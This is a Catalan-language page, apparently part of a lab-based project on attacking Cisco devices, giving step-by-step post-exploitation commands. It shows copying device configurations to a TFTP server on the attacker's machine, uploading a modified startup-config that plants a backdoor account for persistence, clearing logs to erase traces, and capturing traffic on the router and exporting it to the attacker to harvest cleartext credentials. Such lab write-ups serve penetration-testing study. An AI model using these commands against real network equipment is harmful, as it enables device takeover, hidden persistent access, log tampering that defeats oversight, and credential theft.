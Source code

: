 ## Fitxers de Configuració de Dispositius  
  
### Arxius Startup-config i Running-config  

--- 

### Obtenció arxiu de configuracions

#### Requisitis  
- Accés remot al dispositiu  
- Credencials d'accés al dispositiu (veure obtenció d'accés mitjançant atacs de diccionari)
- Disposar de servidor tftp/ftp a la màquina atacant.

Tot i que no es tracta d'una explotació o atac en si, la tecnica d'obtenció d'arxius de configuració pot resultar molt
important a l'hora de dur a terme d'altres atacs o per assolir persistencia en accions de post-explotació. A banda d'aixó
permetrà obtenir informació que potser no s'ha descobert mitjançant l'escaneig del dispositiu, i en general millorarà la
qualitat d'informació de la que disposem d'aquest. Cal notar que per a cada model de dispositiu les comandes poden variar,
així doncs caldrà disposar dels manuals corresponents per aquells dispositius amb els que s'estigui treballant.

#### Comandes a dispositius cisco  
`copy running-config <ftp/tftp>`  
`<servidor_destí/remote_host>`  
`<nom_fitxer>`  

#### Execució  
Una vegada s'ha obtingut accés privilegiat a un dispositiu, es pot trobar tota la configuració d'arrancada al fitxer 
**startup-config** i la configuració actual de funcionament a **running-config**. Existeix una comanda cisco per descarregar
aquesta informació a través de protocols tftp i ftp. Partint de que aquests ja es troben instalats a la màquina atacant,
es procedeix a descarregar-los. El directori per defecte on s'emmagatzemaran és `/srv/ftp` o `/srv/tftp`, i per a que es
pugui descarregar correctament l'arxiu al servidor s'haurà de crear per avançat l'arxiu que s'utilitzarà com a destí.
Addicionalment s'ha de canviar els permisos d'aquests arxius per que es pugui escriure sobre aquests.

`cd /srv/tftp`  
`touch running-config.txt startup-config.txt`  
`chmod 777 running-config.txt`  
`chmod 777 startup-config.txt`  

S'executen les comandes per a copiar els arxius

`copy running-config tftp`  
`192.168.3.2`  
`running-config.txt`  

`copy startup-config tftp`  
`192.168.3.2`  
`startup-config.txt`  

![img.png](img.png)  

Una vegada descarregats i emmagatzemats al directori corresponent es pot analitzar el seu contingut.

![img.png](img.png)  

Rarament resultarà tant senzill, pero d'assolir aquest nivell d'accés es podria dir que es te control gairebe complert 
sobre aquell domini de la xarxa i totes les funcions o serveis que el dispositiu pogués oferir.

---  

### Càrrega d'arxiu de configuracions  

#### Requisitis    
- Accés remot al dispositiu  
- Credencials d'accés al dispositiu (veure obtenció d'accés mitjançant atacs de diccionari)
- Disposar de servidor tftp/ftp a la màquina atacant.

La descàrrega dels arxius de configuració pot semblar que no afegeix molt de valor ja que ja es disposava d'accés privilegiat 
al dispositiu. Un ús que es pot donar a aquests arxius i que es descriu més endavant a **atacs Synflood** és la càrrega 
d'arxius d'arrencada modificats al dispositiu, de cara a modificar-ne la configuració d'una manera més subtil que no pas
directament sobre la CLI del dispositiu, fet que pot deixar una petjada molt reconeixible en forma de logs.

#### Comandes a dispositius cisco  
`copy <ftp/tftp>: <arxiu> `  
`<servidor_destí/remote_host>`  
`<nom_fitxer_destí>`  

#### Execució    
Una vegada descarregats els arxius de configuració d'un dispositiu, un dels objectius és de disposar de permanencia d'accés
per si es modifiquessin les claus o noms d'usuaris que s'han utilitzat per accedir en primer lloc al dispositiu. Per a fer-ho
s'afegiran credencials a la configuració del dispositiu per a que quan aquest es pugui arribar a reiniciar, que aquestes modificacions
s'apliquin.

Modifiquem l'arxiu corresponent que s'ha descarregat a l'anterior exemple. S'afegeix un usuari i una clau d'accés en la 
forma següent:
> username atacant password 0 persistencia

Carreguem l'arxiu i una vegada carregadt, i per a exemplificar el cas, es realitza un reinici forçat del dispositiu per 
comprobar que la nova configuració inclou les nostres credencials, en el cas real aquest reinici es realitzaria per part
de la víctima en un moment indeterminat.

`copy tftp: startup-config`
`192.168.3.2`
`<enter>`

![img_1.png](img_1.png)

S'intenta accedir al dispositiu amb les credencials per determinar si s'ha realitzat correctament el procediment

![img_2.png](img_2.png)

Ja es disposa de permanencia al dispositiu. Si be aquesta és fàcil de revertir en cas de ser descoberta, caldrà que s'analitzi
al detall l'arxiu de configuració en primer lloc. Addicionalment es pot mirar de netejar els *logs* mitjançant la comanda
`clear log` o `clear logging` per a que no quedi rastre de les accions dutes a terme, tot i que un resgistre de *logs*
buits tambe podria despertar certes sospites.

---  

### Captura de paquets i exportació de fitxer .pcap per al seu anàlisi  

#### Requisitis    
- Accés remot al dispositiu  
- Credencials d'accés al dispositiu (veure obtenció d'accés mitjançant atacs de diccionari)
- Disposar de servidor tftp/ftp a la màquina atacant.

Com amb els anteriors dos exemples, aquesta técnica no es tracta d'un atac sinó d'una eina utilitzada normalment per analitzar
el funcionament d'una xarxa, pero serà de molta ajuda coneixer el seu ús quan es disposi d'una posició MiTM i es vulgui capturar
informació que servirà de cara a altres atacs.

#### Execució    
L'execució d'aquesta técnica és senzilla i pot variar segons els models amb els que s'estigui treballant. En el cas dels
models Cisco que s'han descobert a la xarxa, una vegada s'hagi accedit a aquests, es configuraran per a realitzar tasques
de captures de paquets a emmagatzemar en un buffer que despres es podrà exportar.

Les comandes de configuració per a la captura de paquets sobre una interfície concreta del dispositiu són les següents:

>monitor capture buffer MiTM_PCAP_BUFF size 2048 max-size 1024 circular  
>monitor capture point ip cef MiTM_PCAP_POINT g0/0 both  
>monitor capture point tcp MiTM_PCAP_POINT_TCP both filter ipv4   
>  
>ip access-list extended PCAP  
>permit icmp host 100.64.0.130 any  
>permit icmp any host 100.64.0.130  
>   
>monitor capture point associate MiTM_PCAP_POINT MiTM_PCAP_BUFF  
>monitor capture point associate MiTM_PCAP_POINT_TCP MiTM_PCAP_BUFF  
>   
>monitor capture point start MiTM_PCAP_POINT  
>monitor capture point start MiTM_PCAP_POINT_TCP  

Una vegada s'han capturat paquets, els buffers es poden exportar a un servidor tftp per a ser examinats amb wireshark des de 
la màquina atacant:

> monitor capture buffer MiTM_PCAP_BUFF export tftp://192.168.3.2/capture.pcap  

Informació útil que cercarem entre d'altres són paquets de protocols d'encaminament, credencials en text en clar i d'altres
paquets que puguin millorar el coneixement de la xarxa del que es disposa.  

> **Note**  
> Malauradament i degut a la versió de dispositiu virtualitzat que s'utilitza a les xarxes d'aquest treball no s'ha pogut
> realitzar la exportació d'aquests fitxers de captura i per tant no es poden incloure imatges d'exemple.


